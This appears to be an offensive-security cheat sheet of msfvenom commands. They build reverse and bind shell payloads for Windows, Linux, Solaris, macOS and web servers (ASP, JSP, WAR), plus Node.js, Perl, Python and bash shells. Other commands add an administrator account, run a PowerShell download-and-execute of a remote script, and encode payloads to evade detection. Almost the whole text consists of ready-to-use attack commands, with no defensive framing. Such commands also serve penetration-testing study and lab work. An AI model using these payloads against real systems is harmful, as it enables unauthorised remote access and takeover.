Here are commands to run on kali Linux from msfvenom and their output is described in a Word file with a video explaining it.
1- msfvenom -l payloads #Payloads
2- msfvenom -l encoders
Windows
Reverse Shell
PORT 80
IP address: 10.0.2.15
3- msfvenom -p windows/meterpreter/reverse_tcp LHOST=(IP Address) LPORT=(Your Port) -f exe > reverse.exe
LHOST = 10.0.2.15 LPORT= 80
4- msfvenom -p windows/meterpreter/bind_tcp RHOST=(IP Address) LPORT=(Your Port) -f exe > bind.exe
Rhost= 192.168.18.3 IP address of windows as Rhost
5- msfvenom -p windows/adduser USER=attacker PASS=Attacker@123! -f exe > adduser.exe
6- msfvenom -p windows/shell/reverse_tcp LHOST=(IP Address) LPORT=(Your Port) -f exe > prompt.exe
7- msfvenom -a x86 --platform Windows -p windows/exec CMD="powershell \"IEX(New-Object Net.webClient).downloadString('http://IP/nishang.ps1')\"" -f exe > pay.exe
msfvenom -a x86 --platform Windows -p windows/exec CMD="net localgroup administrators shaun /add" -f exe > pay.exe
7- msfvenom -p windows/meterpreter/reverse_tcp -e shikata_ga_nai -i 3 -f exe > encoded.exe
8- msfvenom -p windows/shell_reverse_tcp LHOST=<IP> LPORT=<PORT> -x /usr/share/windows-binaries/plink.exe -f exo plinkmeter.exe
Linux
9- msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST=(IP Address) LPORT=(Your Port) -f elf > reverse.elf
msfvenom -p linux/x64/shell_reverse_tcp LHOST=IP LPORT=PORT -f elf > shell.elf
IP address= 10.0.2.5 Port:80
10- msfvenom -p linux/x86/meterpreter/bind_tcp RHOST=(IP Address) LPORT=(Your Port) -f elf > bind.elf
11- msfvenom --platform=solaris --payload=solaris/x86/shell_reverse_tcp LHOST=(ATTACKER IP) LPORT=(ATTACKER PORT) -f elf -e x86/shikata_ga_nai -b '\x00' > solshell.elf
MAC Payloads
Reverse Shell:
12- msfvenom -p osx/x86/shell_reverse_tcp LHOST=(IP Address) LPORT=(Your Port) -f macho > reverse.macho
13- msfvenom -p osx/x86/shell_bind_tcp RHOST=(IP Address) LPORT=(Your Port) -f macho > bind.macho
14- msfvenom -p windows/meterpreter/reverse_tcp LHOST=(IP Address) LPORT=(Your Port) -f asp >reverse.asp
msfvenom -p windows/meterpreter/reverse_tcp LHOST=(IP Address) LPORT=(Your Port) -f aspx >reverse.aspx
15- msfvenom -p java/jsp_shell_reverse_tcp LHOST=(IP Address) LPORT=(Your Port) -f raw> reverse.jsp
16- msfvenom -p java/jsp_shell_reverse_tcp LHOST=(IP Address) LPORT=(Your Port) -f war > reverse.war
17- msfvenom -p nodejs/shell_reverse_tcp LHOST=(IP Address) LPORT=(Your Port)
18- msfvenom -p cmd/unix/reverse_perl LHOST=(IP Address) LPORT=(Your Port) -f raw > reverse.pl
19- msfvenom -p cmd/unix/reverse_python LHOST=(IP Address) LPORT=(Your Port) -f raw > reverse.py
20- msfvenom -p cmd/unix/reverse_bash LHOST=<Local IP Address> LPORT=<Local Port> -f raw > shell.sh

